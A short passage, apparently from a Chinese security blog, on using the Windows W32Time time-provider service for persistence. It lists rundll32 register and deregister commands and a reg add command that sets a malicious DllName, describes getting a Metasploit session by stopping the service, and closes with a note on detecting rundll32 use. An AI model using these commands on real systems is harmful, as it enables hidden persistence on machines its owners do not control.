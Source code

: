 [![](assets/1706145586-eb8abea28a24b9dbf7a1920b7fb0394b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124112512-2f66f160-ba68-1.png)  
通过 sc stop w32time 上线 MSF  
[![](assets/1706145586-15b9de2b2a72aa8e6063bcae3193a7e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124112556-4963c656-ba68-1.png)  
当然，也可以通过 VS 编译相关 dll 文件，通过 rundll32 注册注册表，rundll32 gametime.dll,Register  
[![](assets/1706145586-26e080cd490a9a519e9ffdb7619e2034.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124112714-779dc3dc-ba68-1.png)  
rundll32 gametime.dll,Deregister //注销相关注册表内容  
相关 github 项目，[https://github.com/scottlundgren/w32time](https://github.com/scottlundgren/w32time)  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\gametime" /v DllName /t REG\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
一样的还是 sc stop w32time  
检测方式，对 rundll32 进行检测
